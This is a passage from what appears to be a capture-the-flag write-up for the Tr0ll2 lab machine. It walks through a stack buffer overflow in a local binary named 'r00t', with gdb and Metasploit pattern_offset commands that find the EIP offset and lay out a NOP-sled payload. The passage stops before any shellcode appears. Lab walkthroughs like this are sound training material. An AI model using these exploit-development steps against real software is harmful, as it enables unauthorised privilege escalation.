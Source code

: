 ```bash
locate pattern_offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6a413969
```

![offset_268](/assets/img/posts/troll2/30.png)

Subsequently, we run the r00t program and pass to it 268 characters of "A" and 4 characters of "B" to make sure that we reliably control EIP. From the returned value "0x42424242" which is four B's in the hexadicimal, we are sure that we can reliably overwrite the EIP.

```bash
gdb -q r00t
r $(python -c 'print "A" * 268 + "B" * 4')
```

![BBBB](/assets/img/posts/troll2/31.png)

Now we are looking for ESP (Extended Stack Pointer) address to pass it to the r00t program instead of the four "B's". So, we decided to run the r00t program using the gdb debugger in a modified environement. We unset all the environement variables (LINES and COLUMNS) to avoid getting invalid ESP address when we run the r00t program without a debugger since when any program gets executed, the environment varibales are pushed into the stack so the stack may looks deeper when you run the program inside a debugger than run it in normal which may affect the ESP address. We run the r00t program and pass to it the same previous input but this time we add to it 16 of nop sled "\x90" to ensure the execution of the shellcode that we are going to create later and 100 characters of "C" that will be replaced by the shellcode later. After we run the r00t program, here is the ESP address that we are going to use "0xbffffc80".

```bash
env - gdb r00t
show env
unset env LINES
unset env COLUMNS
r $(python -c 'print "A" * 268 + "B" * 4 + "\x90" * 16 + "C" * 100')
info registers
```
